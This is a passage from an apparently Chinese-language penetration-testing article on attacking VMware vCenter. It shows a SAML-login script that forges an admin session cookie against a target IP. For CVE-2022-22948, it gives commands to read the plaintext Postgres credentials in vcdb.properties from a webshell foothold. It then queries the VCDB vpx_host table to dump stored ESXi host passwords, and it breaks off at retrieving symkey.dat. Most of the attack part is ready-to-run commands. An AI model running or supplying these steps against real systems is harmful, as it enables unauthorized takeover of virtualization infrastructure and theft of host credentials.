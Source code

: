 |     |     |     |
| --- | --- | --- |
| ```plain<br>1<br>``` | ```bash<br>python3 vcenter_saml_login.py -p data.mdb -t 192.168.0.92<br>``` |

![https://geekby.oss-cn-beijing.aliyuncs.com/MarkDown/202205091223914.png-water_print](assets/1699407775-3366e042fb9a2ea5790c939363b6484d.svg "https://geekby.oss-cn-beijing.aliyuncs.com/MarkDown/202205091223914.png-water_print")

登录 VCSA 管理面板，访问 `https://IP/ui`，并设置 Cookie 为上面的返回结果。

![https://geekby.oss-cn-beijing.aliyuncs.com/MarkDown/202205091223366.png-water_print](assets/1699407775-3366e042fb9a2ea5790c939363b6484d.svg "https://geekby.oss-cn-beijing.aliyuncs.com/MarkDown/202205091223366.png-water_print")

### [](#32-cve-2022-22948-%E6%9D%83%E9%99%90%E9%85%8D%E7%BD%AE%E4%B8%8D%E5%BD%93)3.2 CVE-2022-22948 权限配置不当

vCenter Server 包含由于文件权限不正确而导致的信息泄露漏洞，可以利用此漏洞在对 vCenter Server 具有非管理员访问权限的情况下获取敏感信息。

通过第二节描述的漏洞获取的 webshell 权限通常为：`vphere-ui`，归属于用户组：`cis`。在 vCenter 系统的研究中，存在一个包含客户端 `postgresDB` 的明文登录凭证的文件：`/etc/vmware-vpx/vcdb.properties`。任何属于 `cis` 组的用户都可以访问这个文件。即：任何属于 `cis` 组的用户都可以连接到 vCenter 的 Postgres 数据库。

获取 postgresql 配置文件信息：

|     |     |     |
| --- | --- | --- |
| ```plain<br>1<br>2<br>3<br>4<br>5<br>6<br>7<br>``` | ```bash<br># linux<br>cat /etc/vmware-vpx/vcdb.properties<br># or<br>cat /etc/vmware/service-state/vpxd/vcdb.properties<br><br># windows<br>type  C:\ProgramData\VMware\vCenterServer\cfg\vmware-vps\vcdb.properties<br>``` |

连接数据库，读取 vpxuser 密钥：

|     |     |     |
| --- | --- | --- |
| ```plain<br>1<br>2<br>3<br>4<br>5<br>``` | ```bash<br># linux<br>/opt/vmware/vpostgres/current/bin/psql -h 127.0.0.1 -p 5432 -U vc -d VCDB -c "select ip_address,user_name,password from vpx_host;" > password.enc<br><br>#windows<br>C:\Program Files\VMware\vCenter Server\vPostgres\bin\psql.exe -h 127.0.0.1 -p 5432 -U vc -d VCDB -c "select ip_address,user_name,password from vpx_host;" > password.enc<br>``` |

![https://geekby.oss-cn-beijing.aliyuncs.com/MarkDown/202205101036280.png-water_print](assets/1699407775-3366e042fb9a2ea5790c939363b6484d.svg "https://geekby.oss-cn-beijing.aliyuncs.com/MarkDown/202205101036280.png-water_print")

获取 `symkey.dat`：
